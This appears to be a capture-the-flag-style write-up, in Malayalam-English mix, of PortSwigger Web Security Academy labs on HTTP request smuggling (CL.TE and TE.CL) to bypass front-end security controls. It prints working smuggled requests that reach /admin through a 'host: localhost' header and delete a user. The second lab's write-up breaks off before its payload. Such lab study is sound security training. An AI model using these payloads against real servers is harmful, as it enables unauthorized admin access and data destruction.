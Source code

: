                            POST / HTTP/1.1
							Host: 0a5300f1037ac58bc08535ae00e8002b.web-security-academy.net
							Content-Type: application/x-www-form-urlencoded   ---1)
							Content-Length: 34                                ---2)
							Transfer-Encoding: chunked
							
							0
							
							GET /admin HTTP/1.1
							foo: foo

-->aadyam 0 koduthit just enthengilum koduth send chyuka.enit response kitunathinanusarichan njan last /admin enn idunath.adiyil ulla foo enna dulplicate header idand chythapo "error":"Invalid request" ennu kanichu.so namal just GET um http/1.1 idathe athinte koode thazhe aayi enthengilum headerum iduka ok
-->ingane chythapol randamathe response il namuk kanan patunath 401 unauthorized enna response aan 
-->ee response inte thazhe aayi body il kanam `Admin interface only available to local users` so athinartham namal local aayi keriyal /admin ilek keran patumayirikum
-->so namuk ivide ulla foo maati host: localhost enn kodukam.enit rand pravisham send adikumbol response il kanam `"Duplicate header names are not allowed"`  enn.athayath ee request il ipol rand host header undallo
-->so ini namal enth venamennal 1) ilum 2) ilum ulla aa headers copy chyth ee host: localhost header inte thazhe aayi idanam enit thzhe body il enthengilum kodukuka.enit rand pravisham send adikumbol kanam 200OK enn.so aa response nokiyal kanam namuk admin panel ilek access kitiyirikunu
-->response il user ine delete chyan ulla option und.so /admin/delete?username=carlos enn koduth rand pravoisham send adikumbol namuk 302 found enn kanam.so athinartham carlos enna account delete aayi.so lab solve aayi
-->final payload :

                            POST / HTTP/1.1
							Host: 0a5300f1037ac58bc08535ae00e8002b.web-security-academy.net
							Content-Type: application/x-www-form-urlencoded
							Content-Length: 151
							Transfer-Encoding: chunked
							
							0
							
							GET /admin/delete?username=carlos HTTP/1.1
							host: localhost
							joo: jj
							Content-Type: application/x-www-form-urlencoded
							Content-Length: 50
							
							jkjkj
							
-->ivide lab il namal carlos ine delete chythengilum.namude lakshyam ennath unauthorized aaya pathilek pokuka ennathayirunu.so athukondayirikam randmathe request GET aayathen thonunu 
-->ivide aadyathe C-L il 151 ittath ariyalo karanam lab inte peril thane und CL.TE enn.athayath front-end content-lenth mathrame support chyu athukondan

==============================================================

          Lab-6(Exploiting HTTP request smuggling to bypass front-end security 
                     controls, TE.CL vulnerability)
 -->ividem nerthepole thane aaku ulla vyathyasa enthenal front-end server ivide content-lenth alla pakaram transfer-encoding aan support chyunath
 -->ivide lab open chyth /admin ilek pokan nokumbol block chyunath kanam.so front-end server /admin ilek ulla path block chyunu.so namuk ith bypass chyanam
 -->epozhum chyuna pole url path , host ozhich elam remove chyuka enit C-T,C-T,T-E request il iduka.enthengilum body ilum iduka
 -->ivide back-end content lenth mathrame support chyu.so repeater option il poi content-lenth automatic aayi add chyunath untick chyuka
 -->final payload nokam :
